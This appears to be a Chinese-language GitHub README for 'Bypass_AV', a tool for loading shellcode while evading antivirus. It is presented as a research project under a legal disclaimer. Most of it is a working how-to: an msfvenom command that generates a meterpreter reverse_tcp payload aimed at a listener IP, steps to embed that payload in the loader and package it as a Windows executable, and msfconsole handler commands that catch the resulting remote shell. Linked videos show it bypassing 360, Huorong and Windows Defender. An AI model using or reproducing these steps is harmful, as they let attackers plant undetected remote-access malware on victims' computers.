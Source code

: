 # Bypass_AV
Bypass_AV msf免杀，ShellCode免杀加载器 ，免杀shellcode执行程序 ，360&amp;火绒&amp;Window Defender

## 声明

#### 该项目仅供网络安全研究使用，禁止使用该项目进行违法操作，否则自行承担后果，请各位遵守《中华人民共和国网络安全法》！！！


代码未经过大量测试，如发现问题请提交 issue。

## 环境
2022年5月8日 测试可以免杀国内杀软 火绒&360及Window Defender

Windows 10 64位   360&火绒&Window Defender

Windows 7 64位  或以上操作系统应该都没问题（没有测试）


编译

Python  3.8.6

pyinstaller 4.7

## 使用msfvenom

生成ShellCode


```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.100 lport=8080 --encrypt base64 -f c
```

注意：ShellCode 需要是64位的

![image-20220508135022087](https://user-images.githubusercontent.com/34683107/167286509-b134001a-e463-495c-ab6b-78933050b14f.png)
## 加载器

将生成的ShellCode 填至 Bypass_AV.py 里的 ShellCode = '''**ShellCode**''' 处

注意：保留原始ShellCode 里的双引号 "

示例：

![image-20220508134821387](https://user-images.githubusercontent.com/34683107/167286553-0367af02-f64d-4e28-8b01-3080ae98c13f.png)


最终格式：

![image-20220508135655093](https://user-images.githubusercontent.com/34683107/167286556-9b847ebb-0408-43f6-836c-3ac7fac46788.png)



## 打包成可执行程序

```
pip install pyinstaller 
pyinstaller -F -w Bypss_AV.py
```

生成Bypass_AV.exe在dist目录中



## 运行监听

```
msfconsole
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
msf6 exploit(multi/handler) > run
```



### Bypass_360


https://user-images.githubusercontent.com/34683107/167286823-a93fdd69-547e-4adc-9ae5-171fb0e919ca.mov


### Bypass_火绒

https://user-images.githubusercontent.com/34683107/167286897-a482c486-c3e9-4f69-ae55-98afd2ff1ed7.mov


### Bypass_Window Defender

https://user-images.githubusercontent.com/34683107/167286874-9413611e-c2be-4cfb-ba51-f95ebe5518af.mov


感谢阅读

![Axx8](https://user-images.githubusercontent.com/34683107/167286522-4a5fb52c-f975-4ca1-ba6d-6333fd9ff046.jpg)
